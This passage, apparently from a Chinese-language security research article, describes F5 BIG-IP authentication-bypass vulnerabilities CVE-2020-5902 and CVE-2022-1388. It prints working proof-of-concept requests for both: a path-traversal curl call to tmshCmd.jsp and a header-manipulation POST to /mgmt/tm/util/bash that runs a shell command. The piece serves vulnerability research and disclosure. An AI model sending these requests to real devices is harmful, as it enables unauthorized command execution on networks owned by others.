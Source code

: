 CVE-2020-5902 的概念证明是一个简单的 HTTP 请求，用于绕过身份验证要求并向“tmshCmd.jsp”端点发送请求，该端点在系统上执行 tmsh 命令。以下是绕过身份验证的 curl 请求示例：

```bash
curl -k 'https://<host>:<port>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

攻击者在野利用了该漏洞，CISA 发布了有关该活动的[公告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-206a)。"/tmui" API 包含了与此漏洞相关的处理程序代码。

F5 的第二个漏洞于 2022 年进行披露，编号为 ([CVE-2022-1388](https://my.f5.com/manage/s/article/K23605346))。由于 HTTP 逐跳标头的处理方式，设置标头“Connection: X-F5-Auth-Token”会导致“X-F5-Auth-Token”标头不会在请求中后端代码处理中出现。在没有该头部的情况下，后端代码并不会停止处理，导致请求成功通过，仿佛已经经过了身份验证。

下面的示例请求（来自此[概念证明](https://github.com/alt3kx/CVE-2022-1388_PoC)）导致代码执行"/mgmt/tm/util/bash" API 是一个执行命令并返回结果的端点。

```bash
POST /mgmt/tm/util/bash HTTP/1.1
Host: <redacted>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0
{"command": "run" , "utilCmdArgs": " -c 'id' " }
```

此身份验证漏洞涉及 F5 BIG-IP API 的不同组件，即“/mgmt”处理程序。

F5 已经修补了这两个漏洞，并进一步更新了“/tmui”API 中的相关 JSP 处理程序以限制其功能。现在，“fileRead.jsp”处理程序将不再读取任意文件（它仅限于一个非常小的子集），并且“tmshCmd.jsp”处理程序不会执行任意 tmsh 命令（它是“ilx”相关功能的一个小子集）。

## F5 BIG-IP 攻击面

我们使用一个[AWS Marketplace 模板](https://aws.amazon.com/marketplace/pp/prodview-lphsy6izllsmq?sr=0-1&ref_=beagle&applicationId=AWSMPContessa)部署了默认的 F5 安装，并开始在服务器上识别组件。

```bash
[admin@localhost:Active:Standalone] ~ # cat /etc/os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"
CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
[admin@localhost:Active:Standalone] ~ # uname -r
3.10.0-862.14.4.el7.ve.x86_64
```

